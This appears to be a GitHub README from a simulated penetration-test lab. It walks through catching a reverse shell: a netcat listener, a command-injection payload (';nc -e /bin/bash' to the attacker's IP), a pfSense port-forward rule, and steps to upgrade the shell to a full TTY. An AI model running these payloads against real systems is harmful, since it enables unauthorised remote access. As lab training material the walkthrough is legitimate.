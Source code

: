 # Stage 3: Exploiting Vulnerability

### What Is A Reverse Shell

A reverse shell is a method attackers use to access a victim's system. The reverse shell is so effective because of the way most firewalls are already configured. Most firewalls default to deny all inbound traffic but allow all outbound traffic. A reverse shell is so effective because the attacker uses an exploit to send out a shell from the victim's system to the attacker's WAN to gain access. This bypasses the firewall because it allows all traffic outbound rules to send a shell to the attacker's WAN. 

### How To Catch A Reverse Shell
To catch a reverse shell you need 3 things: 

- Listener (think: _'thing that catches reverse shell'_)
- Payload (think: _'thing that sends you a reverse shell'_)
- Port Forwarding rule (think: _'thing that forwards reverse shell from router to kali'_)


### Listener

Attacker:

```bash
nc -lvp 44554
```

nc: stands for "netcat" which is a versatile networking tool used for various communication purposes.

-l: instructs netcat to listen for incoming connections on a specified port.

v: enables verbose mode, providing more detailed output about the connection.

p 44554: specifies the port number (44554 in this case) on which netcat should listen.

### Payload

```bash
;nc -e /bin/bash 192.168.122.209 44554
```

nc: stands for "netcat" which is a versatile networking tool used for various communication purposes.

-e /bin/bash: specifies that netcat should execute a shell (/bin/bash) on the established connection.

192.168.122.209 44554: This specifies the target IP address (192.168.122.209) and port number (44554) to connect to.

It is important to note when executing a payload you must send the shell to the attackers WAN because the firewall rules denys all inbound traffic. This is why we create a port forwarding rule.

### Port Forwarding Rule

Because this a simulated enviroment we have to find the router/firewall. To access the router/firewall we have to understand how networking works. On the Kali box I am attacking from I run "ifconfig" to get my IP address. 

- Attacker IP address is 192.168.2.72
- The subnet is set to 255.255.255.0

In order to be on the same network the first 3 octects have to match,because of the subnet mask. In this case all devices on this network start with 192.168.2.X. Most routers are usually set to be the first or last device on the network.

I put "192.168.2.1" in the firefox browser and it brings up a pfsense GUI. 

I then go to the firewall settings to enable a port forwarding rule on port 44554 to 192.168.2.72 (attacker box).

![image](https://github.com/fabianreyyes/Simulated-Pen-Test/blob/main/media/setup.gif)

### Catching A Reverse Shell

With everything set up on the attacking machine, including a listener and the appropriate port forwarding rule, we can initiate the attack. When we trigger the exploit (e.g., clicking a button), the target application will likely enter a processing or loading state. This indicates the payload has been delivered and the application is waiting for a response. Switching to our attacker terminal, we should see a new connection established from the victim's network. By running a system identification command (like "id"), we can gain some insight into the user privileges we might have obtained on the compromised system.

![image](https://github.com/fabianreyyes/Simulated-Pen-Test/blob/main/media/payload.gif)

### Upgrading Reverse Shell 

## Enable fully-interactive shell 
##### (allows tab complete, arrows keys, etc)(ONLY WORKS ON LINUX, use rlwrap in front of listener for windows)

#### Validate python or python3 on the machine
```bash
python -V
python3 -V
```
#### Make sure to use the correct version of python for next command!
```bash
python -c 'import pty; pty.spawn("/bin/bash")' 
SHELL=/bin/bash script -q /dev/null (if your machine doesn't have python)
```
#### Next, background the shell to start sending raw input, this bypasses your local interpreter (shell) and sends your keystrokes to the reverse shell (victim)
```
Ctrl + Z (background the shell)
stty raw -echo; fg
reset
```
If it asks what TERM to use, set it to **xterm-256color**, or whatever your attacker machine's $TERM is set to. 

### Validate Terminal Type
```
echo $TERM
export TERM=xterm-256color
echo $TERM
```
You should now be able to clear your terminal and use text editors like nano and vim.

### Validate Shell for User
```
echo $SHELL
export SHELL=/bin/bash
echo $SHELL
```
### Validate size of screen
```
echo $TERM && tput lines && tput cols (run on attacker)
stty rows 38 columns 116 (run on victim)
```
Note: you'll want to run the second command with numbers from the first command, so you're setting the victim's shell size to your local kali machine's shell size. 
This helps prevent wordwrap from distorting the shell and will help other tools like nano and vim work as expected.

Note2: It's possible to have a scenario where your shell and your nano/vim sizes don't align on a target. You can use the 'w' command to validate the size of the terminal through a guessing process.

You should now have a fully functional shell, where even sending a ^C (Ctrl + C, normally intended to stop processes) won't cause the shell to die. 
